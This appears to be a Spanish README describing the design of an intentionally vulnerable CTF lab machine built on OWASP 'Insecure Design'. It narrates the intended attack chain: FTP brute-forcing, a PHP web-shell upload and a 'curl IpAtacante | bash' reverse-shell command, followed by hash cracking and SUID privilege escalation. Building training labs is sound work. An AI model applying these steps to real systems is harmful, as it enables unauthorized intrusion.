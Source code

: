 # **Máquina: Diseño Inseguro**

## Objetivo
Esta máquina está específicamente diseñada para explotar la vulnerabilidad ***A04:2021 - Diseño Inseguro*** y otras vulnerabilidades.

## Planteamiento
Para cumplir con este objetivo, la máquina alojará varios servicios como **FTP**, **SSH** y **Apache**.

Estos servicios se encontrarán expuestos externamente para que cuando el atacante realice un reconocimiento pueda detectarlos.
****
El servicio **FTP** podrá ser accesible de forma anónima.

El servicio de **SSH** no tendrá ninguna función más que despistar al atacante.

El servicio de **apache** alojará nuestra pagina web la cual esta inspirada en la serie **Los Originales**. La web será vulnerable a la vulnerabilidad **Diseño Inseguro**, la cual estará enfocada a una gestión insegura de los permisos de usuarios FTP.

Para comenzar el atacante realizará un reconocimiento de los servicios expuestos por la maquina, y de primeras podrá ver que el servicio **FTP** es propenso a hacer un login mediante el usuario de **anonymous** y que el **SSH** es propenso a enumeración de usuarios.

Cuando el atacante se ponga a revisar la web y realizar **FUZZING** para descubrir subdirectorios ocultos, encontrará el directorio **secret**, el cual al intentar acceder no tendra permisos de lectura.

Si el atacante sigue revisando la web, encontrará que no hay ningun vector de entrada a través de la pagina web, por lo cual se pondrá a probar que puede hacer con el usuario de **anonymous** en **FTP**, pero se dará cuenta que con este usuario tampoco puede realizar acciones importantes para vulnerar la maquina.

El atacante se pondrá a revisar mejor la web y verá que se hablan de personajes de la serie, por lo cual se creará un diccionario con nombres de usuario relacionados con los personajes de la serie **Los Originales**, de esta forma el atacante utilizará una herramienta de **Python** para enumerar los usuarios existentes del sistema mediante **SSH**, consiguiendo encontrar al usuario **Elijah** existente en la maquina.

Una vez el atacante sepa que el usuario **Elijah** existe en la maquina, utilizará la herramienta **Hydra** junto con el diccionario de contraseñas **rockyou.txt** y el usuario **Elijah** para realizar un ataque de fuerza bruta e intentar averiguar la contraseña del usuario atacando al servicio de **FTP**, de esta forma obtendremos la contraseña del usuario **Elijah** para acceder al **FTP**.

Cuando el atacante acceda al **FTP** con el usuario de **Elijah** podrá ver que puede visualizar un directorio **Elijah**, en el cual despues de probar a realizar que acciones puede hacer, verá que puede subir ficheros dentro de este directorio **Elijah**, de esta forma el atacante subira un fichero **cmd.php** el cual tendrá codigo en PHP para realizar una **RCE**.

Sabiendo todo esto, el atacante accederá al directorio **secret** dentro de la web y verá que dentro de **secret** existe **Elijah**, de esta forma llegará a la conclusión que el fichero con el **RCE** que ha subido dentro de **Elijah** por **FTP** esta sincronizado con los directorios de la web, por lo que si accede a este fichero y ejecuta **cmd=whoami** y por pantalla le muestra **www-data** verá que tiene ejecución remota de comandos.

De esta forma el atacante, se creará un **index.html** con codigo para ejecutarse una **reverse shell** en **bash**, se creará un servicio **HTTP** y se pondra en escucha por el **puerto 443**, dentro de la url hará que la maquina realice un **curl** a la IP del atacante y "pipeara" el resultado con **bash** **(http://IpMaquina/cmd.php?cmd=curl IpAtacante | bash)**, realizando esto obtendremos una **reverse shell** y obtendremos acceso a la maquina como **www-data** en donde realizaremos un tratamiento de la **TTY**.

Una vez ya tenemos acceso como **www-data** dentro de la maquina, encontraremos una imagen del persone **Caroline**. dicha imagen tendrá un zip llamado **backupPasswords.zip** en **/var/www/**, cifrado con una contraseña, la cual podremos crackear con **zip2john** para obtener el **hash** y despues crackear el **hash** con la herramienta de **John**.

Cuando hagamos el unzip del fichero, el atacante verá otro fichero con muchas contraseñas, y utilizará estas contraseñas para acceder con otro usuario del sistema llamado **Caroline**, de esta forma podrá **moverse lateralmente** a este usuario.

Con el usuario **Caroline**, podremos visualizar la flag **user.txt** en el directorio **/home/caroline/**, además el atacante verá que tiene permisos de SUID sobre un fichero en especifico, el cual este permiso le permitirá escalar sus privilegios al usuario de root.

Una vez tenga acceso con el usuario **root**, el atacante podrá visualizar el flag de **root.txt** dentro de **/root/**, además de obtener acceso completo a toda la maquina.

## Configuración del entorno
Para configurar el entorno utilizaremos un contenedor Docker con el sistema operativo Ubuntu Server. Los servicios que utilizaremos son:

- **FTP**: *vsftpd* version 3.0.3 --> Para transferencia de archivos.
- **SSH**: *OpenSSH 9.6p1*/7.2p2 --> Para acceso remoto seguro.
- **HTTP**: *Apache 2.4.58* --> Para el servidor web.
 
## Pasos a seguir

1. **Instalación de Docker**
2. **Creación del Dockerfile**
3. **Verificación de contenedor Docker**
4. **Primeras pruebas de Docker**
5. **Configuración de la máquina y paquetes**
6. **Testeo de vulnerabilidades**
7. **Aplicar mejoras y corregir errores/problemas**
8. **Volver a testear las vulnerabilidades**
9. **Redactar el reporte y documentación final**
